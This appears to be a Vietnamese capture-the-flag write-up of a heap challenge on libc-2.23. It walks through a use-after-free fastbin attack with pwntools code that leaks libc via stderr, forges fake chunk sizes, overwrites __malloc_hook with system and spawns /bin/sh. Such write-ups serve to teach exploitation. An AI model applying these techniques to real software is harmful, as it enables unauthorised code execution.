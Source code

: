 **1. Ý tưởng**
  - ![image](https://user-images.githubusercontent.com/113702087/218445230-1ad72c5c-8238-4fcd-bfa0-0a946aa0dbb4.png)
  - Chương trình tạo một note book bao gồm các tính năng buy, write, erase, read, và được thực hiện trên heap.
  - Sau khi free vẫn có thể sử dụng write nhờ đó ta có thể UAF.
  - Với libc-2.23 thì không có tcache do đó khi free chunk được đưa vào fastbin. 
  - Khi malloc 1 chunk ở fastbin ta cần lưu ý rằng size của chunk đó là hợp lệ và khi free 1 chunk thì chunk được free nextsize phải khác 0 và chunk & 0xf != 0.
  - Ta sẽ ghi đè malloc_hook thành system và thực thi /bin/sh, trước malloc_hook có 1 chunk hợp lệ để malloc là 0x7ffff7dd1afd có size thuộc chunk 0x70:
  - ![image](https://user-images.githubusercontent.com/113702087/218729175-6b550920-bbdd-4d35-a44e-9d9d2626cc6d.png)
  - Vì chỉ có được 1 chunk do đó không thể đưa vào unsorted bin và full relro nên không thể leak libc bằng nhưng cách này. Tuy nhiên trên binary có stderr thuộc phân vùng ghi được cũng như chứa libc, ta có thể cấp phát vào nó để leak libc.
  - Để malloc được địa chỉ đó phải có size, thật may ta có địa chỉ 0x40403d phù hợp với điều này
  - ![image](https://user-images.githubusercontent.com/113702087/218492785-733857f6-1078-49a9-9415-61b616665249.png)
  - Tuy nhiên sau khi đưa 0x40403d, vì có dữu liệu bên trong nên đã có 1 chunk ảo sinh ra do đó không thể malloc với size 0x70. Vậy nên ta sẽ tạo 1 chunk fake với size 0x70 rồi free nó như vậy mới có thể malloc vào 0x7ffff7dd1afd và thay đổi được malloc_hook. Fake chunk được chọn là 0x404050 ta sẽ cần thay đổi 0x404048 = 0x71 và nextsize của nó là 0x4040b8 != 0 ở đây tôi chọn 0x101

**2. Khai thác**
  - sử dụng uaf để malloc vào 0x40403d và thực hiện leak libc
  ```
  size = 0x70 - 8
  book(1, size)
  choice(3)
  book(2, size, p64(exe.sym['stderr']-19))

  book(1, size)
  book(1, size, b'abc')
  choice(4)
  r.recvuntil(b'abc')
  libc_leak = r.recv(6)
  libc.address = u64(libc_leak + b'\x00'*2) - libc.sym['_IO_2_1_stderr_']
  print(hex(libc.address))
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218730961-a4bca08a-4e9d-4bd8-a0e1-0f125048e70d.png)
  - ![image](https://user-images.githubusercontent.com/113702087/218731081-18749381-5775-426a-b537-d37bb508c61b.png)
  - setup 2 size cho 2 chunk 0x404045 với size là 0x31 và 0x4040a0 với size 0x41
  ```
  payload = b'\x31' + b'\x00'*18 + b'\x00'*8 + p64(exe.sym['stderr'])
  payload += (91 - len(payload))*b'a' + p64(0x41)
  book(2, size, payload)
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218732544-19bad976-0594-4452-b8a6-f96df01d5183.png)
  - ![image](https://user-images.githubusercontent.com/113702087/218732569-0c115792-bad1-44b6-94e2-096c00bf981e.png)
  - chunk 0x404045 có mục đích là thay đổi giá trị ptr còn 0x4040a0 để thay đổi nextsize của fakechunk.
  - đưa 0x404045 vào fast bin, thay đổi nextsize(fakechunk) và tạo chuỗi /bin/sh 
  ```
  book(1, 32)
  choice(3)
  book(2, size, p64(exe.sym['stdin']+5))
  book(1, 32)

  book(1, 48)
  choice(3)
  book(2, size, p64(0x4040a0-0x10))
  book(1, 48)
  book(1, 48, b'/bin/sh\x00'+ b'\x00'*0x10+p64(0x101))
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218738397-d757dea8-c6b5-4d88-b3ac-2ca1b52809be.png)
  - thay đổi ptr thành fakechunk và giải phóng nó
  ```
  payload = b'\x00'*3 + p64(0x71) + b'\x00'*8 + p64(exe.sym['size'])
book(1, 32, payload)

choice(3)
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218739033-1b34b9bd-0ed3-438e-bb9f-bde964b9eee8.png)
  - ghi đè vào malloc_hook
  ```
  payload = p64(libc.sym['__malloc_hook']-35)
book(2, size, payload)
book(1, size)
book(1, size, b'\x00'*19 + p64(libc.sym['system']))
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218739274-c5f76f53-fc9c-484e-aecc-e3a4880fef7b.png)
  - get shell
  ```
  r.sendlineafter(b'> ', b'1')
r.sendlineafter(b'Size: ', str(0x4040a0).encode('utf-8'))
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218739420-57207086-4739-47e1-adb0-4cd54abb560a.png)
